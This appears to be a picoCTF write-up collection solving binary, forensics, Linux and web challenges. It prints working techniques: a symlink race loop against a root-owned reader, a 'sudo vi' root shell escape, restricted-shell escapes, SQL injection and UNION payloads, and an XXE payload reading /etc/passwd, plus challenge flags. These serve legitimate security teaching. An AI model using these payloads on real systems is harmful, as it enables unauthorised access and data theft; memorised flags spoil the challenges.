


## Binary Exploitation
### tic-tac
>Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it. `ssh` to `saturn.picoctf.net:62983`, and run the binary named "txtreader" once connected. Login as `ctf-player` with the password, `d137d16e`
---
Upon ssh into machine, we see `txtreader` binary and flag.txt file, however we don't have permissions to read them. Fortunately, they also give us the pre-compiled code for `txtreader` so that we might get a better idea on what's going on:
```cpp
#include <iostream>  
#include <fstream>  
#include <unistd.h>  
#include <sys/stat.h>  
  
int main(int argc, char *argv[]) {  
 if (argc != 2) {  
   std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;  
   return 1;  
 }  
  
 std::string filename = argv[1];  
 std::ifstream file(filename);  
 struct stat statbuf;  
  
 // Check the file's status information.  
 if (stat(filename.c_str(), &statbuf) == -1) {  
   std::cerr << "Error: Could not retrieve file information" << std::endl;  
   return 1;  
 }  
  
 // Check the file's owner.  
 if (statbuf.st_uid != getuid()) {  
   std::cerr << "Error: you don't own this file" << std::endl;  
   return 1;  
 }  
  
 // Read the contents of the file.  
 if (file.is_open()) {  
   std::string line;  
   while (getline(file, line)) {  
     std::cout << line << std::endl;  
   }  
 } else {  
   std::cerr << "Error: Could not open file" << std::endl;  
   return 1;  
 }  
  
 return 0;  
}
```
Essentially, the file first checks if the file exists, then checks if our permission to view the file. If we are allowed to view, it will read the file contents. It's also worth noting that `txtreader` has SUID bit set, allowing it to run as root when we use:
```
$ ls -l txtreader    
-rwsr-xr-x 1 root root 19016 Mar 16 02:28 txtreader
```
If we can send the textreader to open a file we have permissions on, then quickly swap it with a file linked to the flag, we should be able to trick the program into reading the flag contents for us. This is known as a Race Condition, or **TOCTOU** type of problem. 
[This video by John Hammond](https://youtu.be/HbCCrF9GOtQ) covers a similar CTF challenge, and the solution can be done with the same approach.
	1. We will create our own file called `link` with touch, that we can read/write to.
	2. We will start `txtreader`, and tell it to read `link`, which is owned by us.
	3. `txtreader` will check the file, and confirm we have permission to read the file
	4. We will delete `link`, and create a new `link` file that is symlinked to flag.txt. Now when things want to interact with `link`, they are pointed to flag.txt
	5. `txtreader` will attempt to read `link`, except it now points to `flag.txt`. Since it already confirmed we have permissions, it will output the contents of `flag.txt`
Since `txtreader` won't be waiting for us to manipulate the files in between actions, we have to be very fast, hence the race aspect.  Our human action speeds aren't nearly good enough, so what we can do is loop the action of swapping `link` , while also looping the run of `txtreader`. After enough runs, hopefully our action timings will line up and we can get the flag.
Making the link loop, `linker.sh`:
```
while true
do
	rm link
	touch link
	rm link
	ln -s /home/ctf-player/flag.txt link
done
```

Setting up the linker loop and running `txtreader`:
```
ctf-player@pico-chall$ chmod +x linker.sh 
ctf-player@pico-chall$ ./linker.sh 
rm: cannot remove 'link': No such file or directory
^Z
[1]+  Stopped                 ./linker.sh
ctf-player@pico-chall$ bg 1
[1]+ ./linker.sh &
ctf-player@pico-chall$ while [ 1 ]; do ./txtreader link; done 2>/dev/null
picoCTF{ToctoU_!s_3a5y_f482a247}
```
Overall while this method works, it is not very reliable. Sometimes you can get lucky and the flag is read after a few minutes of running, other times it had not succeeded once in the full 15min duration of the instance.

picoCTF{ToctoU_!s_3a5y_f482a247}

#### Potential Solution--Reliable race fixing?
It might be possible to "fix" the race for us, resulting in very reliable success of flag read. [This post](https://www.usenix.org/legacy/events/fast08/tech/full_papers/tsafrir/tsafrir_html/index.html)  describes using a filesystem maze too large for the system to handle in memory at once, allowing for a more clear window of opportunity for us to switch targets. 
The maze consists of many nested folders, containing symlinks pointing to another batch of nested folders. After repeating for x times, the final link points to the file we own. The maze is too large to be placed in the filesystem cache, and this process results in slower navigation and an increased delay between the action of checking permissions and the action of reading the file contents.

While I did not have time to utilize this trick on tic-tac, it might be worth exploring on another CTF challenge.

### two-sum
>Can you solve this? What two positive numbers can make this possible: `n1 > n1 + n2 OR n2 > n1 + n2` Enter them here `nc saturn.picoctf.net 56856`. [Source](https://artifacts.picoctf.net/c/455/flag.c)
---
Essentially, we need a result where combining two positive numbers results in a smaller number. Sounds impossible, right? We can achieve this by causing an integer overflow, or inputting two large numbers that will overflow the "limit" and come back as a lower value result.

```
$ nc saturn.picoctf.net 56856
n1 > n1 + n2 OR n2> n1 + n2
What two positive numbers can make this possible:
5555555555 5555555555
You have entered 1260588259 and 1260588259
You have an integer overflow
YOUR FLAG IS: picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_fe14e9e9}
```
Note that despite entering 5 555 555 555, it shows that we entered number 1 260 588 259. When we provided a number above the acceptable limit the value overflowed, and our result is something much lower. Now when the 1 260 588 259 is added together, it is still lower than our original input 5 555 555 555. Overflow achieved!

`picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_fe14e9e9}`

## Forensics
### hideme
>Every file gets a flag. The SOC analyst saw one image been sent back and forth between two people. They decided to investigate and found out that there was more than what meets the eye [here](https://artifacts.picoctf.net/c/493/flag.png).
-------------------
Downloading the file shows flag.png. Exiftool tells me there's more to this image than first shown:
```
exiftool flag.png
ExifTool Version Number         : 12.57
File Name                       : flag.png
Directory                       : .
File Size                       : 43 kB
File Modification Date/Time     : 2023:03:14 17:08:24-04:00
File Access Date/Time           : 2023:03:14 17:08:50-04:00
File Inode Change Date/Time     : 2023:03:14 17:08:30-04:00
File Permissions                : -rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 512
Image Height                    : 504
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Warning                         : [minor] Trailer data after PNG IEND chunk
Image Size                      : 512x504
Megapixels                      : 0.258
```

The warning tells us there is extra data after the image information is done, the PNG IEND chunk. 
We can verify this ourselves with xxd:
```
xxd flag.png
<...snip...>
00009b20: 0448 2004 02ff 0fe1 93e1 23be c327 2900  .H .......#..').
00009b30: 0000 0049 454e 44ae 4260 8250 4b03 040a  ...IEND.B`.PK...
00009b40: 0000 0000 001c 136c 5600 0000 0000 0000  .......lV.......
00009b50: 0000 0000 0007 001c 0073 6563 7265 742f  .........secret/
00009b60: 5554 0900 03f7 370d 64f7 370d 6475 780b  UT....7.d.7.dux.
00009b70: 0001 0400 0000 0004 0000 0000 504b 0304  ............PK..
00009b80: 1400 0000 0800 1c13 6c56 656c 5c74 810b  ........lVel\t..
00009b90: 0000 1b0c 0000 0f00 1c00 7365 6372 6574  ..........secret
<...snip...>
```

Using binwalk, we can see the segmented data:
```
$ binwalk ./flag.png        

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 512 x 504, 8-bit/color RGBA, non-interlaced
41            0x29            Zlib compressed data, compressed
39739         0x9B3B          Zip archive data, at least v1.0 to extract, name: secret/
39804         0x9B7C          Zip archive data, at least v2.0 to extract, compressed size: 2945, uncompressed size: 3099, name: secret/flag.png
42984         0xA7E8          End of Zip archive, footer length: 22
```

This can also be separated with binwalk:
```
$ binwalk -D=".*" ./flag.png 
```

The output file is a folder titled `_flag.png.extracted`

```
$ ls -al
total 108
drwxr-xr-x 3 kali kali  4096 Mar 14 17:37 .
drwxr-xr-x 3 kali kali  4096 Mar 14 17:28 ..
-rw-r--r-- 1 kali kali 43006 Mar 14 17:28 0
-rw-r--r-- 1 kali kali     0 Mar 14 17:28 29
-rw-r--r-- 1 kali kali 42965 Mar 14 17:28 29-0
-rw-r--r-- 1 kali kali  3267 Mar 14 17:28 9B3B
-rw-r--r-- 1 kali kali    22 Mar 14 17:28 A7E8
```

After the bulk of data, 9B3B, it appears to be compressed information:
```
$ file 9B3B           
9B3B: Zip archive data, at least v1.0 to extract, compression method=store
```

Rename it as zip file and unzip:
```
$ mv 9B3B 9B3B.zip && unzip 9B3B.zip
```

Resulting output is folder secret with yet another flag.png:
```
$ file flag.png 
flag.png: PNG image data, 600 x 50, 16-bit grayscale, non-interlaced
```

Opening this image shows our flag.


## General Skills
### chrono
>How to automate tasks to run at intervals on linux servers?
>Additional details will be available after launching your challenge instance
-----
For this challenge, we are given a hint toward how linux servers might automate tasks.

Firstly, we are required to connect to the challenge machine via ssh:

```
$ ssh picoplayer@saturn.picoctf.net -p PORT
```

The port number is customized to your own launched instances.

Linux systems are able to automate tasks on regular intervals through the usage of `cron`. More info can be found on the [Linux manual page](https://man7.org/linux/man-pages/man8/cron.8.html). The customizable settings for cron jobs can be found in a file called `crontab`, which is always located in the /etc/ directory. We can check for a crontab file using `ls`:

```sh
picoplayer@challenge:~$ ls /etc/crontab  
/etc/crontab
```

Now that we have confirmed it is there, we can output the contents in plaintext using `cat`:

```
picoplayer@challenge:~$ cat /etc/crontab    
# picoCTF{Sch3DUL7NG_T45K3_L1NUX_7754e199}
```

### money-ware
>Flag format: picoCTF{Malwarename} 
>The first letter of the malware name should be capitalized and the rest lowercase. 
>Your friend just got hacked and has been asked to pay some bitcoins to `1Mz7153HMuxXTuR2R1t78mGSdzaAtNbBWX`. He doesn’t seem to understand what is going on and asks you for advice. Can you identify what malware he’s being a victim of?
-------------
In this challenge, we are given a bitcoin address, and information that this address is used to siphon money from an innocent friend's bitcoin wallet. Since blockchain transactions are publicly disclosed, we can view the activity associated with this wallet on a quick Google search.

www.bitcoinabuse.com is a website dedicated to tracking bitcoin addresses used in ransomeware and blackmailings, so if our address was used in other previous attacks, we can find reports for our given address. 

Searching this address we see several reports for multiple abuse types. Since we know our friend had been hacked, the abuse type is likely a ransomeware attack. The first report against this address is labeled ransomeware, and provides a link where we might learn more:

>More information here: https://blog.avira.com/petya-strikes-back/

The title of the article plainly tells us the malware at play is based on the infamous ransomeware Petya, but we can also follow the link to learn more about it.

We are told the answer to the flag is the malware involved, so we can submit the flag by inserting "Petya" into the picoCTF flag format.
picoCTF{Petya}

### Permissions
>Can you read files in the root file?
>
>Additional details will be available after launching your challenge instance.
-----
This challenge asks us to read a file in the /root directory. Files located here are typically under the highest access protections possible, requiring only root permissions and rejecting any other non-super user.

Firstly, we are required to connect to the challenge machine via ssh:

```
$ ssh picoplayer@saturn.picoctf.net -p PORT
```

The port number is customized to your own launched instances.

Firstly, we can check our own user privileges:
```
picoplayer@challenge:~$ id  
uid=1000(picoplayer) gid=1000(picoplayer) groups=1000(picoplayer)
```
We can see we are not a part of root in any way, uid gid or part of the root group. It is unlikely we can access /root, so it is unsurprising to see we are denied:

```
picoplayer@challenge:/$ cd /root  
-bash: cd: /root: Permission denied
```

We need to find a way to elevate our permissions before we can go here. 

A common approach to elevating privileges is to do super-user actions, through the command `sudo`. Users are often limited in the kinds of sudo actions they can do. We can check what is allowed for our user by typing `sudo -l`:

```
picoplayer@challenge:/$ sudo -l     
Matching Defaults entries for picoplayer on challenge:  
   env_reset, mail_badpass,  
   secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
  
User picoplayer may run the following commands on challenge:  
   (ALL) /usr/bin/vi
```

Notably, we can run `/usr/bin/vi` as any user, including root, as noted by the (ALL). `vi` is a common text editor used to edit files. Since we are interested in reading the contents of a file, opening the file using `vi` is enough to tell us what's inside. 
```
picoplayer@challenge:/$ sudo vi /root/flag.txt
```

However, when we do this we don't see anything? This is because even though we know the location of the flag, we are still guessing if it is called flag.txt or something else. We need a way to explore the contents of the /root directory.

While `vi` has the main purpose of being a text editor, we can also abuse some of it's other features to obtain an interactive terminal session as user root:

```
sudo vi -c ':!/bin/bash'
```

Here, we launch vi with `sudo vi`. With -c flag, we specify a command `:!/bin/bash` for vi to run on launch. 
Alternatively, we can do this ourselves after launching `vi`. Simply typing `:shell` will open a shell session as the current user, in this case, root.

Now we can access /root:
```
root@challenge:~# ls  
root@challenge:~#
```

Typing `ls` shows no file in root? The challenge description mentions reading files in root, so surely something must be here:

```
root@challenge:~# ls -a  
.  ..  .bashrc  .flag.txt  .profile
```

By adding -a flag to `ls` we can see hidden files. There is our flag, under .flag.txt. So, the reason we couldn't find it earlier was because the name was indeed different from what we expected.
We can revisit to see that, once the proper name is supplied, `vi` could have been used to view file contents:
```
picoplayer@challenge:~$ sudo vi /root/.flag.txt
```

```
picoCTF{uS1ng_v1m_3dit0r_021d10ab}  
~
~
```

### Repititions
>Can you make sense of this file? Download the file [here](https://artifacts.picoctf.net/c/475/enc_flag).
------
Here we are tasked with making sense of a file. Following the link prompts us to download a file called `enc_flag`. Enc is almost certainly shorthand for encoded, meaning our flag will probably need to go through some decoding processes.

```
$ cat enc_flag
VmpGU1EyRXlUWGxTYmxKVVYwZFNWbGxyV21GV1JteDBUbFpPYWxKdFVsaFpWVlUxWVZaS1ZWWnVh  
RmRXZWtab1dWWmtSMk5yTlZWWApiVVpUVm10d1VWZFdVa2RpYlZaWFZtNVdVZ3BpU0VKeldWUkNk  
MlZXVlhoWGJYQk9VbFJXU0ZkcVRuTldaM0JZVWpGS2VWWkdaSGRXCk1sWnpWV3hhVm1KRk5XOVVW  
VkpEVGxaYVdFMVhSbFZrTTBKVVZXcE9VazFXV2toT1dHUllDbUY2UWpSWk1GWlhWa2RHZEdWRlZs  
aGkKYlRrelZERldUMkpzUWxWTlJYTkxDZz09Cg==
```

Dumping the contents in plaintext, we can see that it is clearly not human-readable. A string such as this, ending with =, is very likely encoded with base64. We can use an online decoding tool such as CyberChef to get through this quickly, or we can use the linux command `base64` to do this as well:

```
$ cat enc_flag | base64 -d  
VjFSQ2EyTXlSblJUV0dSVllrWmFWRmx0TlZOalJtUlhZVVU1YVZKVVZuaFdWekZoWVZkR2NrNVVX  
bUZTVmtwUVdWUkdibVZXVm5WUgpiSEJzWVRCd2VWVXhXbXBOUlRWSFdqTnNWZ3BYUjFKeVZGZHdW  
MlZzVWxaVmJFNW9UVVJDTlZaWE1XRlVkM0JUVWpOUk1WWkhOWGRYCmF6QjRZMFZXVkdGdGVFVlhi  
bTkzVDFWT2JsQlVNRXNLCg==
```
From our cat output we use | to redirect straight to another command, `base64`. Setting -d means the data will be base64 decoded. Despite this, the data is still unreadable. And we still see it ending in =? It appears the flag has been through multiple layers of encoding. We can decode for multiple rounds through the same method as before:

```
$ cat enc_flag | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d  
picoCTF{base64_n3st3d_dic0d!n8_d0wnl04d3d_492767d2}
```

Finally after 6 rounds of decoding, the flag appears in plaintext. 

### Special
>Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM) Start your instance to see connection details.
>
>Additional details will be available after launching your challenge instance.
----
When we first enter, we might be inclined to check what is in our home:
```
Special$ ls  
Is    
sh: 1: Is: not found
```

Our ls command is converted to Is, and then fails to execute. Checking a few other commands leads all syntax being altered to similar legitimate words, and all of them starting with capitilization. With our syntax ruined, we cannot execute commands properly! If we attempt to enter a different shell terminal, we receive an interesting rejection:
```
Special$ bash  
Why go back to an inferior shell?
```
My first thought is if my input is being altered after input but before bash processing, perhaps I can use characters designated to escaping metacharacter interpretation. In bash, the backslash `\` character is used to escape regular interpretations, and generally treats the character as raw text.
```
Special$ \ls  
Als    
sh: 1: Als: not found
```
Unfortunately, trying to escape the l in `ls`, which was previously converted to I, produces something completely different. Trying again with other commands, I manage to execute `whoami`. Perhaps I am on to something?
```
Special$ \whoami  
\whoami    
ctf-player
```

As it stands currently, we are escaping only 1 character, but the others are still treated as regular components of a string. What if we escape every character?
```
Special$ \e\c\h\o test  
\e\c\h\o test    
test
```
We can successfully perform `echo`! However, for some strange reason `ls` is not working:
```
Special$ \l\s  
Plus    
sh: 1: Plus: not found
```
Perhaps the problem is caused by ls being only 2 characters? Regardless, we have other ways to look around:
```
Special$ \d\i\r  
\d\i\r    
blargh  
  
Special$ \c\a\t \b\l\a\r\g\h  
\c\a\t \b\l\a\r\g\h    
cat: blargh: Is a directory

Special$ \d\i\r \b\l\a\r\g\h  
\d\i\r \b\l\a\r\g\h    
flag.txt  

Special$ \c\a\t \b\l\a\r\g\h\/\f\l\a\g\.\t\x\t  
\c\a\t \b\l\a\r\g\h\/\f\l\a\g\.\t\x\t    
picoCTF{5p311ch3ck_15_7h3_w0r57_6a2763f6}
```
While this approached works, it is rather tedious and ugly. We can escape this special shell by invoking bash:
```
Special$ \b\a\s\h  
\b\a\s\h    
ctf-player@challenge:~$ whoami  
ctf-player
```
Now we are free!

### Specialer
>Reception of Special has been cool to say the least. That's why we made an exclusive version of Special, called Secure Comprehensive Interface for Affecting Linux Empirically Rad, or just 'Specialer'. With Specialer, we really tried to remove the distractions from using a shell. Yes, we took out spell checker because of everybody's complaining. But we think you will be excited about our new, reduced feature set for keeping you focused on what needs it the most. Please start an instance to test your very own copy of Specialer.
>
>Additional details will be available after launching your challenge instance.
------
Upon entering, we might want to look around. However, we instantly come up with a problem:
```
Specialer$ ls  
-bash: ls: command not found
```
From the looks of it, ls is not accessible in our PATH. Specifying the full path does not help, and we soon find that we may not have access to any binaries:
```
Specialer$ /usr/bin/ls  
-bash: /usr/bin/ls: No such file or directory  
Specialer$ locate ls  
-bash: locate: command not found
```

Using tab auto-complete to navigate, we can see we are in a very restricted environment, and the only binary available is bash:
```
Specialer$ cd /  
bin/   home/  lib/   lib64/
Specialer$ cd /bin/bash
```
Note: Tabbing at / suggests bin, home, lib and lib64. Tabbing at /bin/ auto suggessts bash. This must be the only file in the directory.

At least with bash, we still have access to built-ins. Since our terminal commands are so limited, we can actually list them all by pressing tab twice on an empty line:
```
Specialer$    
!          builtin    dirs       exit       history    pushd      suspend    unalias  
./         caller     disown     export     if         pwd        test       unset  
:          case       do         false      in         read       then       until  
[          cd         done       fc         jobs       readarray  time       wait  
[[         command    echo       fg         kill       readonly   times      while  
]]         compgen    elif       fi         let        return     trap       {  
alias      complete   else       for        local      select     true       }  
bash       compopt    enable     function   logout     set        type          
bg         continue   esac       getopts    mapfile    shift      typeset       
bind       coproc     eval       hash       popd       shopt      ulimit        
break      declare    exec       help       printf     source     umask
```

We can utilize `echo` to see one directory layer at a time:
```
Specialer$ echo *  
abra ala sim

Specialer$ echo */*  
abra/cadabra.txt abra/cadaniel.txt ala/kazam.txt ala/mode.txt sim/city.txt sim/salabim.txt
```
We have several txt files here to view, but unfortunately no common binary to read them with. Bash also comes with a read built-in, combined with echo, we can output contents within files

```
Specialer$ read IFR < abra/cadabra.txt; echo $IFR  
Nothing up my sleeve!
```
Now that the contents are displayed, perhaps one option can give us a flag?
```
Specialer$ read IFR < ala/kazam.txt; echo $IFR  
return 0 picoCTF{y0u_d0n7_4ppr3c1473_wh47_w3r3_d01ng_h3r3_38f5cc78}
```

### Useless
>There's an interesting script in the user's home directory
>
>Additional details will be available after launching your challenge instance.
-----
For this challenge we are given a simple script, and told to explore the script to obtain the flag.

Firstly, we are required to connect to the challenge machine via ssh:

```
$ ssh picoplayer@saturn.picoctf.net -p PORT
```

The port number is customized to your own launched instances.

we see the script in our home directory, with executable premissions:
```
picoplayer@challenge:~$ ls -al  
total 16  
drwxr-xr-x 1 picoplayer picoplayer   20 Mar 17 18:38 .  
drwxr-xr-x 1 root       root         24 Mar 16 02:30 ..  
-rw-r--r-- 1 picoplayer picoplayer  220 Feb 25  2020 .bash_logout  
-rw-r--r-- 1 picoplayer picoplayer 3771 Feb 25  2020 .bashrc  
drwx------ 2 picoplayer picoplayer   34 Mar 17 18:38 .cache  
-rw-r--r-- 1 picoplayer picoplayer  807 Feb 25  2020 .profile  
-rwxr-xr-x 1 root       root        517 Mar 16 01:30 useless
```

First, we check the kind of file we are working with:
```
picoplayer@challenge:~$ file useless    
useless: Bourne-Again shell script, ASCII text executable
```

This is a bash script, written in plaintext. We will be able to easily view the contents with a simple `cat` command:
```
picoplayer@challenge:~$ cat useless    
#!/bin/bash  
# Basic mathematical operations via command-line arguments  
  
if [ $# != 3 ]  
then  
 echo "Read the code first"  
else  
       if [[ "$1" == "add" ]]  
       then    
         sum=$(( $2 + $3 ))  
         echo "The Sum is: $sum"     
  
       elif [[ "$1" == "sub" ]]  
       then    
         sub=$(( $2 - $3 ))  
         echo "The Substract is: $sub"    
  
       elif [[ "$1" == "div" ]]  
       then    
         div=$(( $2 / $3 ))  
         echo "The quotient is: $div"    
  
       elif [[ "$1" == "mul" ]]  
       then  
         mul=$(( $2 * $3 ))  
         echo "The product is: $mul"    
  
       else  
         echo "Read the manual"  
           
       fi  
fi
```

It appears the script is performing basic math, based on whatever operation you tell it to perform. For example, a division problem

```
picoplayer@challenge:~$ ./useless div 10 2  
The quotient is: 5
```

If we don't supply 3 arguments, we are told to read the code. If we don't supply a valid math operation, we are told to read the manual. There is not much to go on with this program here. We can see if a manual exists for this by using `man`:
```
man useless    
  
useless  
    useless, -- This is a simple calculator script  
  
SYNOPSIS  
    useless, [add sub mul div] number1 number2  
  
DESCRIPTION  
    Use the useless, macro to make simple calulations like addition,subtraction, multi-  
    plication and division.  
  
Examples  
    ./useless add 1 2  
      This will add 1 and 2 and return 3  
  
    ./useless mul 2 3  
      This will return 6 as a product of 2 and 3  
  
    ./useless div 6 3  
      This will return 2 as a quotient of 6 and 3  
  
    ./useless sub 6 5  
      This will return 1 as a remainder of substraction of 5 from 6  
  
Authors  
    This script was designed and developed by Cylab Africa  
  
    picoCTF{us3l3ss_ch4ll3ng3_3xpl0it3d_5562}
```

Turns out a man page exists, and our flag was placed here as well. Great..

## Web
### findme
>Help us test the form by submiting the username as `test` and password as `test!` The website running [here](http://saturn.picoctf.net:54197/)
---
Upon logging in, we cycle through a couple blank pages very quickly before landing at `http://saturn.picoctf.net:54197/home`. The page contains a search bar and a small note:
"I was redirected here by a friend of mine but i couldnt find anything. Help me search for flags :-)"

Searching for a few keywords leads us to no result. The note on this page mentions the redirects as well, so let's use burpsuite to catch and analyze each step that's occuring.
First login request:


First redirect:



Second redirect:


Then finally we are sent to home. There isn't much to go on aside from the second redirect has an id value that looks like base64 encoding. Decoding the string:
```
$ echo "bF90aGVfd2F5XzAxZTc0OGRifQ==" | base64 -d
l_the_way_01e748db}
```
This is looking like half of a flag. Combining the two id values together and base64 decoding might get us the flag:

```
echo "cGljb0NURntwcm94aWVzX2FsbF90aGVfd2F5XzAxZTc0OGRifQ==" | base64 -d
picoCTF{proxies_all_the_way_01e748db}
```

### MatchTheRegex
>How about trying to match a regular expression The website is running [here](http://saturn.picoctf.net:49351/).
---
Going to the page, we see an input box to input our search. Based on the name, my first thought is that this will be a regular expression search, where we must input a regex term that will hit positive for specifically the flag. After trying several different regex queries, I'm not having any luck. Looking at the page source, I notice a hint displayed in comments:
```html
<script>
	function send_request() {
		let val = document.getElementById("name").value;
		// ^p.....F!?
		fetch(`/flag?input=${val}`)
			.then(res => res.text())
			.then(res => {
				const res_json = JSON.parse(res);
				alert(res_json.flag)
				return false;
			})
		return false;
	}

</script>
```
`^p.....F!?`
In regex searches, ^ refers to the start of a line and $ refers to the end of a line, so perhaps this hint can be a working query?


Unfortunately not..
Playing with the provided hint a little more, I get a successful match by being more generic:


Despite being a regex based search, and the commented page source including the ^ marker for the beginning of a line, including the ^ in our search causes it to fail..
`picoCTF{succ3ssfully_matchtheregex_f89ea585}`

### More_SQLi
>Can you find the flag on this website. Try to find the flag [here](http://saturn.picoctf.net:53241/)
---

Thanks to [sergyperov](https://ctftime.org/writeup/21125) for the helpful writeup!

---
Entering the site we see a login page. Considering the name of the challenge, we will start with a simple SQL injection payload: `'or 1=1-- `
On the first attempt with a random input, we get an error. This is more useful than usual, however, as it tells us the SQL query happening in the background:
```
username: 'or 1=1-- 
password: 345534
SQL query: SELECT id FROM users WHERE password = '345534' AND username = ''or 1=1-- '
```
Since password is being called first, we can insert our injection into this field and it should work.
After bypassing login, we see a table of information:


There's no flag here, but one of the addresses seems to be a little interesting: "Maybe all the tables". Doing our regular SQL injection `'or 1=1-- ` in the search bar results in the same information. It appears that although we are dumping all information from the current table, the flag is actually in a different table? In order to dump information in other tables we will look into UNION injections.

First to explore union injections, we need to know the number of columns in this table. With this challenge, we can clearly see three tables, but just to be sure, we will check a UNION injection including 3 columns. If the column number doesn't match the SQL query, the search will fail.
```
Kampala' UNION SELECT NULL,NULL,NULL-- 
```


Note that choosing Kampala to search isn't required, but it can make it easier to see our row of NULLs between it and the City/Address/Phone header.

From here, we need to know which columns might be text injectable. Since city and address contain strings, these two are likely, however phone consists of numbers so possibly not the third column. Testing all 3 at once:
```
Kampala' UNION SELECT "abc","abc","abc"--
```


All three columns return our injected string, meaning we can dump information out of any of these three columns. Note you only need one column working to proceed with union injection, and also if you try injecting your string into a column that cannot take string values then the entire SQL query fails.

Probing the SQL tables:
```
Kampala' UNION SELECT sql,NULL,NULL from sqlite_master LIMIT 1,5; -- 
```


by pulling sql from sqlite_master, we can see a total of 4 tables:
- hints
- more_table
- offices
- users

Normally users would be the most interesting for us, but our hint about "Maybe all the tables" is hinting towards the more_tables table first. We can check each table by using the same type of UNION injection. Note that this table list output also gives us the column names: `id` and `flag`. Another reason to try this table first.
```
Kampala' UNION SELECT id,flag,NULL from more_table where 1=1-- 
```


And with that, we have our flag.
`picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}`

### SOAP
>The web project was rushed and no security assessment was done. Can you read the /etc/passwd file? [Web Portal](http://saturn.picoctf.net:55566/)
---
Visiting the page we  3 cards, each with an interactable `Details` button:


When we watch Firefox's Network Monitor and click a detail, we see a post method sent:


The request payload is in xml format, potentially leading to XXE (XML external entity) injection. We can try a simple payload described in [portswigger's post](https://portswigger.net/web-security/xxe) on the topic:

```
`<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>`
```

modifying our own payload:
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY abc SYSTEM "file:///etc/passwd"> ]><data><ID>&abc;</ID></data>
```

We can resend our request using Firefox's Network Manager again, and replace the body contents with our newly modified payload. In the response tab, we see the contents of `/etc/passwd` as well as our flag:


picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}

In an interesting twist of annoyance, the xxe injection fails if you use the entity term 'xxe', as is done in portswigger's example.  After renaming the entity to 'abc', the xxe exploit worked effortlessly.


